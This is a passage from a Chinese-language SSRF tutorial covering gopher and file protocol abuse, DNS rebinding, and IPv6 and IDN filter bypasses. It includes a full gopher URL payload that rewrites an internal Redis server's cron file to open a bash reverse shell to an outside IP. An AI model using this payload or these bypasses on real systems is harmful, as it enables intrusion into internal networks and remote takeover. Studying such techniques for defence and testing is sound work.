 如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。

例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 file:///path/to/file 这种格式来访问计算机本地文件。

使用file协议可以避免服务端程序对于所访问的IP进行的过滤。

例如我们可以通过 file:///d:/1.txt 来访问D盘中1.txt的内容。

## DNS Rebinding

一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP

对于获得的IP进行判断，发现为非黑名单IP，则通过验证

服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。

由于已经绕过验证，所以服务器端返回访问内网资源的结果。

## 利用IPv6

有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 `[::] 0000::1` 或IPv6的内网域名来绕过过滤。

## 利用IDN

一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ 和 example.com 等同。利用这种方式，可以用 ① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ 等字符绕过内网限制。

# 可能的利用点

## 出现的场景

1.社交分享功能：获取超链接的标题等内容进行显示

2.转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

3.在线翻译：给网址翻译对应网页的内容
